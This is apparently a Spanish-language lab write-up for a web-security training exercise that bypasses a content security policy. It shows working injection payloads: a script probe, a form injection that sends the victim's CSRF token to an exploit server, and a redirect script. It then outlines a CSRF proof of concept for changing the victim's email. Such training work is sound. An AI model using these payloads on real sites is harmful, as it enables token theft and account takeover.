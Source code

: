 
Podemos hacer referencia del campo del correo desde la URL para ello hacemos lo siguiente:
```html
http://bupsuite.com/my-account?email=prueba
```
Por lo que se puede probar si podemos meter codigo javascript
```
http://bupsuite.com/my-account?email=prueba"><script>alert(1)</script>
```
Todo se ve bien, pero si vemos la consola, podemos ver que hay errores de la CSP

Ahora podemos probar lo siguiente, para salir del contexto del "form"
```html
http://bupsuite.com/my-account?email=prueba"></form>
```
Entonces podemos tratar de enviar un nuevo formulario, pero por el metodo GET
```html
http://bupsuite.com/my-account?email=prueba"></form><form class="login_form" name="myform" action="https://server-exploit-portswigger/exploit" method="GET"><buttom class="buttom" type="submit">Click me</buttom>
```
Con esto, podemos ver el exploit server y ver a nivel de logs, que se tramitar el csrf token 

Entonces desde el exploit server le vamos a mandar la URL maliciosa:

```javascript
<script>
location='http://bupsuite.com/my-account?email=prueba"></form><form class="login_form" name="myform" action="https://server-exploit-portswigger/exploit" method="GET"><buttom class="buttom" type="submit">Click me</buttom>';
</script>
```

Ahora podemos armar un CSRF PoC desde BurpSuite y le añadimos los valores del csrf token del la victima y el correo en cuestion a cambiar




